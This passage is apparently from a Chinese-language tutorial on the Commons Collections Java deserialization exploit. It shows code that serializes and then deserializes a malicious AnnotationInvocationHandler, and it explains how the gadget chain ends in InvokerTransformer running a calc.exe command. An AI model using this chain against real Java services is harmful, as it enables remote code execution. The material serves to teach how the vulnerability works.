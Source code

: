 创建完`AnnotationInvocationHandler`实例后，需要将其序列化成一个字节数组，以便通过网络发送或保存到文件中。

```java
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(handler);
oos.close();
```
这段代码将`handler`对象（即恶意的`AnnotationInvocationHandler`实例）序列化，并将结果存储在`ByteArrayOutputStream`中。

#### 7.2.2 反序列化触发漏洞

最后，通过反序列化这个字节数组来触发漏洞。

```java
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = ois.readObject();
```
当`ois.readObject()`被调用时，Java的反序列化机制会重建`AnnotationInvocationHandler`对象。在重建过程中，其`readObject`方法会被自动调用。该方法会遍历其内部的`TransformedMap`，并调用`setValue`方法。这个`setValue`调用会触发`TransformedMap`的`checkSetValue`方法，进而调用`ChainedTransformer`的`transform`方法。`ChainedTransformer`会依次执行其内部的`Transformer`链，最终由`InvokerTransformer`执行`Runtime.getRuntime().exec("calc.exe")`，弹出计算器，从而证明漏洞利用成功。
